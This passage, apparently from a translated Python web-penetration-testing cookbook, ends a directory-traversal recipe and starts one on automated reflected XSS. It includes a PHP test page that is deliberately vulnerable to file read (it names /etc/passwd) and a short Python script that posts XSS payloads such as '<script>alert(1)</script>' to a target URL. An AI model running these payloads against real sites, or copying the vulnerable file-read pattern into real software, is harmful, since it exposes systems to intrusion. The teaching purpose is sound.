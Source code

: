 我们通过在响应中查找预期字符串来检查是否达到了目标。如果字符串存在，我们停止循环并打印出攻击字符串以及对成功攻击的响应。这允许我们手动验证攻击是否成功，代码是否需要重构，或者 web 应用程序是否不易受攻击：

```
    i = i+1
  i = 0
```

最后，计数器被添加到每个循环中，直到达到预设的最大值。一旦达到最大值，下一个攻击字符串将设置为零。

## 还有更多

通过应用本模块其他部分所示的原理，可以调整该配方，以使用参数。但是，由于通过参数调用的页面很少，而且有意简洁，因此未提供此功能。

如前所述，可以通过添加其他文件及其常见字符串来扩展此功能。一旦建立了遍历目录的能力和到达根目录所需的深度，它还可以扩展到抓取所有感兴趣的文件。

下面是一个 PHP 网页，允许您在自己的构建中测试此脚本。只要把它放在你的`var/www`目录或任何你使用的解决方案中。请勿在未知网络上保持此活动状态：

```
<?php
echo "Get me /etc/passwd! File Contents";
if (!isset($_REQUEST['id'])){
header( 'Location: /traversal/first.php?id=1' ) ;
}
if (isset($_REQUEST['id'])){
  if ($_REQUEST['id'] == "1"){
    $file = file_get_contents("data.html", true);
    echo $file;}

else{
  $file = file_get_contents($_REQUEST['id']);
  echo $file;
}
}?>
```

# 基于 URL 的自动跨站点脚本

反映跨站点脚本通常通过基于 URL 的参数进行。你应该知道什么是跨站点脚本，如果你不知道，我为你感到尴尬。来真的我必须解释一下吗？可以跨站点脚本是将 JavaScript 注入页面。这是黑客 101，也是大多数人遇到或听到的第一次攻击。阻止跨站点脚本的低效方法主要集中在目标脚本标记上，由于脚本标记不是在页面中使用 JavaScript 所必需的，因此有很多方法可以解决这一问题。

我们将创建一个脚本，该脚本采用各种标准规避技术，并使用`Requests`库将其应用于自动提交。我们将知道脚本是否成功，因为脚本或其早期版本将出现在提交后的页面上。

## 怎么做…

我们将使用的脚本如下所示：

```
import requests
import sys
url = sys.argv[1]
payloads = ['<script>alert(1);</script>', '<BODY ONLOAD=alert(1)>']
for payload in payloads:
  req = requests.post(url+payload)
  if payload in req.text:
    print "Parameter vulnerable\r\n"
    print "Attack string: "+payload
    print req.text
    break
```
